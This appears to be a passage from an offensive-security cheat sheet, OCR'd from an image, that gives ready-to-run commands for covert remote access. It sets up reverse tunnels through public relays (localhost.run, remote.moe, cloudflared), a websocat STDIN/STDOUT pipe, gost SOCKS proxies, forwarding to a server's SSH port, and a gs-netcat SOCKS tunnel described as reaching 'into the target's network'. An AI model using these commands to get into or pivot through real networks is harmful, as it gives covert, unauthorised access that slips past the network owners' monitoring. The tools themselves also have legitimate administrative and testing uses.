 ### Reverse HTTPS tunnel to forward public HTTPS requests to Port 8080 on this server
```
ssh -R80:0:8080 -o StrictHostKeyChecking=accept-new nokey@localhost.run
```
#### Or using remote.moe
```
ssh -R80:0:8080 -o StrictHostKeyChecking=accept-new nokey@remote.moe
```
#### Or using cloudflared
```
cloudflared tunnel --url http://localhost:8080 --no-autoupdate
```

### A simple STDIN/STDOUT pipe via HTTPS:
```
websocat -s 8080
```
#### and on the workstation use this command to connect:
```
websocat wss://<HTTPS-URL>
```
#### Or run a Socks-Proxy (via HTTPS): 
#### On the server
```
gost -L mws://:8080
```
#### On the Workstation
```
gost -L tcp://:2222/127.0.0.1:22 -F 'mwss://<HTTPS-URL>:443'
```

### Forward port 2222 to the server's port 22:
```
gost -L tcp://:2222/127.0.0.1:22 -F 'mwss://<HTTPS-URL>:443'
```
#### or use it as a Socks-Proxy:
```
gost -L :1080 -F 'mwss://<HTTPS-URL>:443'
```

### Test the Socks-proxy:
```
curl -x socks5h://0 ipinfo.io
```

## Use any tool via Socks Proxy
### On the target's network:
#### Create a SOCKS proxy into the target's network.
#### Use gs-netcat but ssh -D would work as well.
```
gs-netcat -l -S
```
#### On your workstation:
#### Create a gsocket tunnel into the target's network:
```
gs-netcat -p 1080
```
